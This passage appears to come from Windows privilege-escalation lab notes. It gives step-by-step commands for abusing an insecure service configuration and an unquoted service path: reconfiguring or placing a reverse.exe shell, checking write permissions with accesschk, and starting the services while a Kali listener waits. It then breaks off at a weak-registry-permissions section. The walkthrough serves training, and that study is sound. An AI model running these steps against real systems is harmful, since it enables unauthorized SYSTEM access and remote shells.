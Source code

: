 Currently stopped. After config we can start it.
The easiest way to privilege escalate in this scenario is to configure the BINARY_PATH_NAME back to our reverse.exe and start the service.

6. Reconfigure the service to use our reverse shell executable:
```cmd
> sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```
7. Start a listener on Kali, and then start the sercie to trigger the exploit
```cmd
> net start daclsvc
```

### Unquoted Service Path
Executables in Windows can be run without using their extensions (e.g. "whoami.exe" can be run by just typing "whoami").
Some executables take arguments, seperated by spaces (e.g. someprog.exe arg1 arg2 arg3...).
This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path:
```
C:\Program Files\Some Dir\SomeProgram.exe
```
To us, this obviously runs SomeProgram.exe. To Windows, **C:\\Program** could be the executable, with two arguments: **Files\\Some** and **Dir\\SomeProgram.exe**.
Windows resolves this ambiguity by checking each of the possibilities in turn. 
If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.

1. Run winPEAS to check for service misconfigurations:
```cmd
> .\winPEASany.exe quiet servicesinfo
```
2. Note that the "unquotedsvc" service has an unquoted path that also contains spaces: C:\Program Files\Unquoted Path Service\Command Files\unquotedpathservice.exe
3. Confirm using sc:
```cmd
> sc qc unquotedsvc
```
4. Use accesschk.exe to check for write permissions:
```cmd
> .\accesschk.exe /accepteula -uwdq C:\
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
5. Copy the reverse shell executable and rename it appropriately:
```cmd
> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe
```
6. Start a listener on Kali, and then start the service to trigger the exploit:
```cmd
> net start unquotedsvc
```

### Weak Registry Permissions
The Windows registry stores entries for each service.
Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify the service directly 
